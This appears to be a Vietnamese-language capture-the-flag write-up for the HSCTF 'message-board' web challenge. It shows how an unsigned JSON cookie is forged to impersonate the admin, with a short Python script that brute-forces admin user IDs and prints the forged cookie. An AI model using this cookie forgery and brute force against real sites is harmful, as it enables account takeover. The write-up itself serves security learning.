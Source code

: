 # message-board

## Description

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).

## Solution

Bài này cho sẵn ta một account , thử login vào xem :

![img](img/img2.png)

Ok , ta nhận được thông báo "HSCTF: no flag for you". Tất nhiên rồi , tiếp tục xem source code thôi nào!

![img](img/img4.png)

Dễ thấy có 2 user được config một là user họ cho ta hai là user admin , tiếp tục theo dõi đoạn code sau :

![img](img/img5.png)

Như vậy để lấy được flag ta cần phải login với user admin , nhưng mà login bằng cách nào ?

Tôi tìm thấy một giá trị cookie như sau :

> userdata : j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D

Decode url ta đc cookie có dạng : {"userID":"972","username":"kupatergent"}

Từ đây có thể thấy để lấy được flag ta cần thay đổi trường user=admin, vấn đề còn lại là ta sẽ đi đoán giá trị cookie của admin (100 > 999) , vậy tôi code một script python để brute force giá trị này .

```
import requests

url = 'https://message-board.hsc.tf/'

for i in range(100,1000):
	y = 'j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22admin%22%7D'.format(i)
	cookie = {'userData':y}
	res = requests.get(url, cookies=cookie)
	print('[*] Found ID of admin:',i)
	if 'flag{' in res.text:
		print('ID=',i)
		break
```

Sau khi chạy code tôi thu được ID = 768 , sửa lại cookie và get flag :

> Userdata: j%3A%7B%22userID%22%3A%22768%22%2C%22username%22%3A%22admin%22%7D

## Flag

HSCTF: flag{y4m_y4m_c00k13s}
